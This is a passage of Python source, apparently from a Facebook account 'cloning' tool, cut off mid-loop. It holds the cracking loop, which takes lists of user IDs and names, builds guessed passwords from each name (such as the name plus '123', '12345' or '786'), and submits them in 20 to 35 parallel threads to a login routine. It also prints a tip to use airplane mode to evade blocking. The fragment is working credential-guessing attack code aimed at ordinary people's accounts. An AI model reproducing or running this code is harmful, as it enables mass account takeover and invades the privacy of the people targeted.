 			print(50*"\033[1;97m_")
			with ThreadPoolExecutor(max_workers=20) as (_ngentot_gratis_):
				for yntkts in self.id:
					try:
						uid, name = yntkts.split('|')
						xz = name.split(' ')
						if len(xz) == 1:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'1234']
						elif len(xz) == 2:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'1234']
						elif len(xz) == 3:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'1234']
						elif len(xz) == 4:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'1234']
						else:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'1234']
						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)
					except:
						pass
			os.remove(self.apk)
			hasil(ok,cp)
		elif yan in ('2', '02'):
			os.system("clear")
			print(banner)
			time.sleep(1)
			print('\033[1;37m[+]\033[1;33m File CLONING CP/OK IDS MIX ')
			print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))
			print('\033[1;37m[+]\033[1;36m PROCESS HAS BEEN STARTED')
			print(50*"\033[1;97m_")
			print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')
			print(50*"\033[1;97m_")
			with ThreadPoolExecutor(max_workers=25) as (_ngentot_gratis_):
				for yntkts in self.id:
					try:
						uid, name = yntkts.split('|')
						xz = name.split(' ')
						if len(xz) == 1:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[1]+'1234', xz[1]+'786']
						elif len(xz) == 2:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[1]+'1234', xz[1]+'786']
						elif len(xz) == 3:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[1]+'1234', xz[1]+'786']
						elif len(xz) == 4:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[1]+'1234', xz[1]+'786']
						else:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[1]+'1234', xz[1]+'786']
						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)
					except:
						pass
			os.remove(self.apk)
			hasil(ok,cp)
		elif yan in ('3', '03'):
			os.system("clear")
			print(banner)
			time.sleep(1)
			print('\033[1;37m[+]\033[1;33m File CLONING CP/OK IDS MIX ')
			print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))
			print('\033[1;37m[+]\033[1;36m PROCESS HAS BEEN STARTED')
			print(50*"\033[1;97m_")
			print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')
			print(50*"\033[1;97m_")
			with ThreadPoolExecutor(max_workers=35) as (_ngentot_gratis_):
				for yntkts in self.id:
					try: